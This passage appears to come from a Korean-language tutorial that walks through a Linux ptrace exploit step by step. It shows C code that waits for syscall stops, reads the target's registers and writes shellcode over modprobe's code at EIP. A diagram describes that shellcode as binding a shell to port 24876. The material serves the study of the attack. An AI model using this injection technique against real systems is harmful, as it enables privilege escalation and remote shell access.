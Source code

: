 fprintf(stderr, "-&gt; Waiting for the next signal...\n");

// 다음 시그널까지 대기 (시스템콜 진입점)
while(sigc &lt; 2);</code></pre><ul>
<li>PTRACE_SYSCALL의 효과:<ul>
<li>대상 프로세스가 시스템콜 진입/종료 시마다 정지</li>
<li>각 정지마다 SIGCHLD 시그널 발생</li>
</ul>
</li>
</ul>
<p>Phase 6: 레지스터 읽기 및 쉘코드 주입</p>
<pre><code>// CPU 레지스터 값 읽기
if (ptrace(PTRACE_GETREGS, k_child, NULL, &amp;regs) == -1) {
    perror("-&gt; Unable to read registers: ");
}

fprintf(stderr, "-&gt; Injecting shellcode at 0x%08x\n", regs.eip);

// EIP 주소에 쉘코드 주입
for (i = 0; i &lt;= SIZE; i += 4) {
    if (ptrace(PTRACE_POKETEXT, k_child, regs.eip + i, 
               *(int*)(shellcode + i))) {
        // 오류 처리 생략
    }
}</code></pre><p>원본 메모리:           변조된 메모리:
┌─────────────┐       ┌─────────────┐
│ 0x08048000  │  →    │  쉘코드     │ ← EIP
│ modprobe    │       │  (24876번   │
│ 기존 코드   │       │   포트      │<br/>│             │       │   바인딩)   │
└─────────────┘       └─────────────┘</p>
